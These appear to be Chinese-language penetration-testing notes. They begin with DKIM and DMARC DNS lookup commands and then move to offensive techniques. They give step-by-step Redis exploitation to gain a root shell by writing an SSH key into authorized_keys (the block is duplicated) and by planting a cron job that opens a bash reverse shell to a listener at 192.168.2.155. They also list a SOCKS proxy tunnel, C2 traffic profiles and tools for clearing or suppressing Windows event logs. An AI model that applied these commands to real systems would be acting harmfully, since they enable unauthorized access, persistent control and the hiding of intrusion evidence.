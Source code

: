 DKIM邮件签名:
邮件源文件DKIM头中s字段为selector的值
DKIM服务器域名 selector._domainkey.xxx.com
查找公开密钥 nslookup -type=txt s1024._domainkey.aliyun.com

DMARC电子邮件认证协议:
通常情况下，它与SPF或DKIM结合使用，并告知收件方服务器当未通过SPF或 DKIM检测时该如何处理
nslookup -type=txt _dmarc.aliyun.com
none	不采取特定措施
quarantine	邮件接收者将DMARC验证失败的邮件标记为可疑的。
reject	域名所有者希望邮件接收者将DMARC验证失败的邮件拒绝
pct=：域名所有者邮件流中应用DMARC策略的消息百分比。
rua=：用于接收消息反馈的邮箱。 

redis getshell:
1.通过写SSH key的方式进行getshell 
生成密钥对
ssh-keygen -t rsa
将生成的公钥写入到文件中
(echo -e "\n\n\n"; cat id_rsa.pub; echo -e "\n\n\n") > pub.txt
设置路径、文件、写入公钥 
config set dir /root/.ssh/
config set dbfilename "authorized_keys"
save
exit
连接
ssh -i id_rsa root@192.168.2.155
2.通过写SSH key的方式进行getshell 
生成密钥对
ssh-keygen -t rsa
将生成的公钥写入到文件中
(echo -e "\n\n\n"; cat id_rsa.pub; echo -e "\n\n\n") > pub.txt
设置路径、文件、写入公钥 
config set dir /root/.ssh/
config set dbfilename "authorized_keys"
save
exit
连接
ssh -i id_rsa root@192.168.2.155
3.redis写定时任务反弹shell
config set dir /var/spool/cron/
config set dbfilename root
set x "\n* * * * * bash -i >& /dev/tcp/192.168.2.155/2333 0>&1\n"
save

代理转发:
HTTP Service reGeorgSocksProxy.py

C2通信:
https://github.com/threatexpress/cs2modrewrite
https://github.com/rsmudge/Malleable-C2-Profiles

痕迹清理:
Elsave可用于远程清除Windows日志文件，也可以备份远程日志文件。
Clearlog.exe
脚本工具停止系统日志记录
https://github.com/3gstudent/Windows-EventLog-Bypass
https://github.com/hlldz/Invoke-Phant0m
